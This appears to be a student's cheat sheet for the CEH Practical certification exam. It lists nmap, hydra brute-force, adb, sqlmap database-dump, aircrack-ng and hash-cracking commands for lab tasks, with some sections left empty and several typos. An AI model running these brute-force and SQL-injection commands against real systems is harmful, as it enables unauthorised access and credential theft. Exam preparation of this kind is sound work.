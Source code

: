 # CEH PRACTICAL
# 1 FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

# 2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

# 3 SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

# 4 Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

# 5 SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

# 6 REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

# 7  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

# 8 FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

# 9 PRIVILEGE ESCALATION
* 

# 10 ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

# 11 DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

# 12 SQL injection PASSWORD
* login in website
* view profile tab and note the url
* inspect
* console type (document.cookie)
* terminal
* be a root user
* sqlmap -u "(url)" --cookie="(cookie val)" --dbbs
* yes for all
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) --tables
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) -T (longin table) --dump

# 13 

# 14

# 15

# 16 HASH,DVWA
* login with credentials
* go to file and download
* open the file coppy hash and paste in hashes.com or crackstation.com

# 17 IOT TRAFFIC
* open the file in wireshark
* mqtt (in the filter option) 
* click on publish message
* mqtt protocol

# 18 WIFI
* aircrack-ng -w(password file directory) (file directory) 

# 19 njRAT
* open njRAT 
* search and download the file

# 20 VERACRYPT
* crack the hash first
* open veracrypt and use the cracked hash as passwors
